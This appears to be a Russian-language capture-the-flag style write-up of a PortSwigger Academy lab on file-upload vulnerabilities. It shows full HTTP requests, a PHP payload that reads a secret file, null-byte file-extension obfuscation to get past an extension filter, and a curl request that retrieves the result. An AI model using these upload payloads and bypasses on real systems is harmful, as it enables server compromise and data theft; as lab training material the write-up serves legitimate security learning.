 ```yaml
---
title: "Web shell upload via obfuscated file extension"
date: 2025-08-15
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/
```

## Solution

Залогинюсь в ЛК, чтобы получить доступ к загрузке изображения. Далее загружу картинку, чтобы получить `POST`-запрос:

```http
POST /my-account/avatar HTTP/2
Host: 0a9e00500358597d8139cfb30072000e.web-security-academy.net
Cookie: session=lEfYg1FlPTuq1ROth2VpoLZNtUwnBfjp
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundaryfceb9abf78dbacfa1630c433a9ee5183
Content-Length: 107749
Origin: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundaryfceb9abf78dbacfa1630c433a9ee5183
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

Получил ответ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_obfuscated_file_extension/1.png){: height="200" .align-center}

Попробую загрузить пейлоад на `php` со следующим содержанием:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Я получил следующее сообщение об ошибке:

```
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.
```

Перехвачу этот запрос с помощью `Burp Proxy`.

```http
POST /my-account/avatar HTTP/2
Host: 0a9e00500358597d8139cfb30072000e.web-security-academy.net
Cookie: session=lEfYg1FlPTuq1ROth2VpoLZNtUwnBfjp
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Length: 521
Origin: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Disposition: form-data; name="csrf"

RgCgfWH2Gi2LyeTUGt2VfUTMRoERK3OT
------geckoformboundary2c70b7ac2112b49187d963d4f8123642--
```

Попробую обфусцировать расширение файла.

```
exploit.php .jpg - Ok, но нет доступа
'exploit.php ' - 403
exploit.php%00.jpg - ok
```

Теперь надо получить файл через `curl`:

```bash
cu63:~/ $ curl https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/files/avatars/exploit.php                                               
muIWVFAUZpHDz4wxvhmVaTIRTvphcvCO%
```

Сдам токен `muIWVFAUZpHDz4wxvhmVaTIRTvphcvCO` для прохождения лабы в форму проверки.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_obfuscated_file_extension/2.png){: height="200" .align-center}

Лаба успешно пройдена:3
